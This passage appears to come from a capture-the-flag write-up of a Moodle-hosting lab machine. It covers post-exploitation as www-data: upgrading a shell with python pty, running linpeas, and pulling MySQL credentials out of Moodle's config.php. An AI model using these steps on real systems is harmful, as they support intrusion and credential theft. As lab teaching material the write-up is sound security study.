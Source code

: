 Success! Logged in as the `www-data` user!

## Privesc: `www-data` to `jamie`

The shell that was gained was pretty terrible to work with. I tried to deal with it for a while, but it was not easy! I didn't initially upgrade the shell with Python because `which python` and `which python3` didn't return anything. Turns out the PATH was not well configured on this system. Python was there, it just needed the full path to call it.

```none
$ find / -name python3 2> /dev/null
/usr/local/bin/python3
/usr/local/share/bash-completion/completions/python3
```

Did the usual shell upgrade with:

```none
/usr/local/bin/python3 -c 'import pty;pty.spawn("/bin/bash");'
Ctrl Z
stty raw -echo; fg
Enter Enter
```

I started running linpeas and went to get a cup of tea. When I got back linpeas had finished and had some useful output. Three users had a console, so probably want to move laterally one of them to get the user flag.

```none
╔══════════╣ Users with console
jamie:*:1001:1001:Jamie:/home/jamie:/bin/sh
root:*:0:0:Charlie &:/root:/bin/csh
steve:*:1002:1002:User &:/home/steve:/bin/csh
```

Linpeas also found the Moodle conf file that had some MySQL database credentials, which sounded like a good place to start.

```none
╔══════════╣ Analyzing Moodle Files (limit 70)
-rwxr-xr-x  1 www  www  758 Dec 19  2020 /usr/local/www/apache24/data/moodle/config.php
$CFG->dbtype    = 'mysqli';
$CFG->dbhost    = 'localhost';
$CFG->dbuser    = 'moodle';
$CFG->dbpass    = 'PlaybookMaster2020';
  'dbport' => 3306,
```

Again, the `mysql` command (similar to `python3`) was not available, as it was not in the PATH. Had to do another search to find it.

```none
$ find / -name mysql 2> /dev/null
/usr/local/bin/mysql
/usr/local/share/bash-completion/completions/mysql
/usr/local/share/mysql
/usr/local/include/mysql
/usr/local/include/mysql/mysql
/usr/local/etc/mysql
/usr/local/lib/mysql
/var/mail/mysql
/var/db/mysql
/var/db/mysql/mysql
```
